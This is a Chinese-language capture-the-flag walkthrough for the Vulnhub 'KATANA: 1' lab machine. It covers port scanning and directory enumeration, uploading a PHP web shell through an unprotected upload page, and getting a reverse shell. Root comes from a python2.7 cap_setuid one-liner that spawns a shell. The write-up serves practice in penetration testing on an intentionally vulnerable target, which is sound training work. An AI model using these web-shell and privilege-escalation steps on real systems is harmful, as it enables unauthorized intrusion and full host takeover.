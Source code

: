 ```yaml
---

title: Vulnhub 482 KATANA 1
date: 2020-05-13
---
```


考点：文件上传,cap_setuid+ep

靶机链接：<https://www.vulnhub.com/entry/katana-1,482/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| KATANA: 1  | 10.0.2.21 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.21  
$ sudo nmap -v -p- $rip
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Issuer: commonName=katana/organizationName=webadmin/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T13:57:36
| Not valid after:  2022-05-11T13:57:36
| MD5:   0443 4a65 9ba1 0b75 ea8d d1b8 c855 e495
|_SHA-1: f89e f85e e6b3 6b10 4ebc 5354 80a0 0ae3 7e10 50cc
|_http-server-header: LiteSpeed
|_http-title: Katana X
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-favicon: Unknown favicon MD5: AF89068FFB9883F7D99BB25F75687AC7
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
```

### WEB测试

#### 端口80

```bash
$ dirsearch -u http://10.0.2.21/    
                                      
[01:58:10] 200 -  655B  - /index.html                                       
[01:58:17] 403 -  274B  - /server-status                                    
[01:58:17] 403 -  274B  - /server-status/ 
```



#### 端口7080

dirsearch 无收获

#### 端口8088

```bash
$ dirsearch -u http://10.0.2.21:8088   
[01:55:13] Starting: 
[01:55:25] 301 -    1KB - /cgi-bin  ->  http://10.0.2.21:8088/cgi-bin/      
[01:55:27] 301 -    1KB - /css  ->  http://10.0.2.21:8088/css/              
[01:55:27] 301 -    1KB - /docs  ->  http://10.0.2.21:8088/docs/            
[01:55:27] 200 -    5KB - /docs/                                            
[01:55:30] 301 -    1KB - /img  ->  http://10.0.2.21:8088/img/              
[01:55:30] 200 -  655B  - /index.html                                       
[01:55:36] 200 -   50KB - /phpinfo.php                                      
[01:55:38] 401 -    1KB - /protected/runtime/                               
[01:55:38] 401 -    1KB - /protected/data/                                  
[01:55:43] 200 -    6KB - /upload.html                                      
[01:55:43] 200 -    2KB - /upload.php
```

![1](https://www.vulnhub.cn/walkthrough/482/1.webp)

上传php一句话后，文件名改为`katana_2.php`

#### 端口8715

访问后有http认证，弱口令admin admin访问后无收获


### 漏洞发现

根据8088端口上传的文件名称`katana_2.php` 编写小脚本 

```bash
import os

ip = '10.0.2.21'
ports = ('80','7080','8088','8715')
file = 'katana_2.php'
for port in ports:
    url ='http://'+ ip +':'+port +'/'+ file
    print(url)
    os.system('curl -I %s ' % url)
```

![2](https://www.vulnhub.cn/walkthrough/482/2.webp)



## 获得权限

访问http://10.0.2.21:8715/katana_2.php返回200，使用antsword连接成功

![3](https://www.vulnhub.cn/walkthrough/482/3.webp)



上传r444.php 访问后本地获得反弹shell

![4](https://www.vulnhub.cn/walkthrough/482/4.webp)


## 提权

运行linpeas.sh发现

![5](https://www.vulnhub.cn/walkthrough/482/5.webp)



```bash
www-data@katana:/tmp$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
# whoami
```

获得root权限

![6](https://www.vulnhub.cn/walkthrough/482/6.webp)
